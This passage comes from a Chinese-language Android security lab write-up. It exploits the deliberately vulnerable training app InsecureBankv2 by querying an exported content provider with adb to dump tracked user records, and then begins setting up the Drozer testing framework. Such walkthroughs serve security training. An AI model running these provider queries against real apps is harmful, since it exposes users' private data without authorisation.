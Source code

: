 - 利用漏洞
  + 逆向操作，用 `JADX` 直接打开 `jar` 文件，找到代码

    ![5.2ExploitingAndroidContentProviderFile](imgs/5.2ExploitingAndroidContentProviderFile.PNG)

  + 将 `InsecureBankv2.apk` 复制到 `Android SDK` 的 `platform-tools` 文件夹下，在模拟器运行时，执行以下命令：

    ```bash
    adb install InsecureBankv2.apk
    ```

  + 再次打开 `InsecureBankv2`，回到 `platform-tools` 文件夹并在命令行执行以下命令：

    ```bash
    adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
    ```

  + 得到记录如下

    ![5.3ExploitingAndroidContentProviderResult](imgs/5.3ExploitingAndroidContentProviderResult.PNG)



---
#### (6) Drozer漏洞利用攻击

- 环境配置

  + 下载文件：https://github.com/mwrlabs/drozer

  + 下载手机Agent并安装：https://github.com/mwrlabs/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk

    ```bash
    adb install drozer-agent-2.3.4.apk
    ```
